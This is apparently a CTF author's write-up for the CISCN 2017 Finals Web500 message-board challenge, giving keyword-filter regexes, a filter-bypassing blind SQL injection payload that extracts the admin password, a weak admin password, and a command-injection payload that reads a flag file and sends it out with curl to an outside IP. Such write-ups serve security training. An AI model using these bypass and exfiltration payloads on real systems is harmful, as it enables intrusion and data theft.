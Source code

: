# Ciscn2017Finals

## Web500 留言板

---

### First

There is a AES-128-CBC encode id for `/messageDetail.php?id=XXX`

It can do **Oracle padding attack**, but I can't 

But, it's hard to succeed~

>[Pwnhub-粗心的佳佳-writeup --L3m0n](http://www.cnblogs.com/iamstudy/articles/pwnhub_jiajia_writeup.html)

Because the challenge used in Pwnhub, I'd make it more difficult!

I set dynamic secret key `define("SECRET_KEY", "Ginkgo".substr((string)time(),0,7)."666");` and **blind-injection** for it.

The waf is:

    function waf($value){
        $filter = "union|and|updatexml|where|like|left| |,|\x09|\x0a|\x0d|\x0b|\x0c|\xa0|--|\*|\\|or|right|regexp|benchmark|join|sleep|where|=|<|>|sub";
        if (preg_match("/".$filter."/is",$value)==1){   
            print "Waf by HumenSec";
            exit();
        }
    }

Playload:

    -3||ascii(mid((select(admin_pass)from(admin))from(%s)for(1)))=%s

PS:

[VAuditDemo](https://github.com/virink/VAuditDemo) is an open source program, it can find on Github.

And I have not changed database's structure.

### Maybe first too

There is also AES-128-CBC encode for admin's login verification, it's like NJCTF 2017 web300 Be Admin

[NJCTF-2017-web-Writeup](http://www.bendawang.site/article/NJCTF-2017-web-Writeup)

### Also first

Maybe it is too hard to bypass, I made a weak password for admin `admin1024`

### Second

There is a Process monitoring in admin's panel.

It's Command injection!!!

A sick waf~~

    function hwaf($value){
        $filter = "<|>|php|0x|\\|python|gcc|less|root|etc|pass|http|ftp|cd|bash|[\w\d]+\.[\w\d]+|tcp|udp|cat|×|fl|ag|flag|ph|hp|wget";
        if (preg_match("/".$filter."/is",$value)==1){  
            exit('Waf by HumenSec');
        }
    }

Playload:

    c=xxx;a=ca;b=t;c=f;d=g;h=1;e=.;f=h;g=p;h=la;i=humen666;k=2333;curl${IFS}2886800124:8000/?r=`$a$b${IFS}$i$c$h$d$k$e$g$f$g`

---

## How about this challenge?
